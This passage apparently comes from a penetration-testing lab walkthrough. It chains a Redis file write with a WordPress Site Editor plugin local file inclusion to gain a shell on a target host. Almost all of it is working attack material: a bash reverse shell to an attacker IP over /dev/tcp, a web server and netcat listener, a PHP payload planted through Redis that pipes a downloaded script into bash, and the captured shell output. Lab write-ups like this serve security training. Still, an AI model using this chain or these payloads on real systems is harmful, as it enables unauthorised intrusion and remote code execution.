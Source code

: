 The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.118.14/9002 0>&1
```

Let's host this file using a python webserver to make it available to the target.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We then need to start a listener to catch the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
```

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('curl 192.168.118.14/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php
...
```

This command will hang, and we will receive a connection to our listener.

```
connect to [192.168.118.14] from (UNKNOWN) [192.168.120.85] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
<ite-editor/editor/extensions/pagebuilder/includes$ 
```
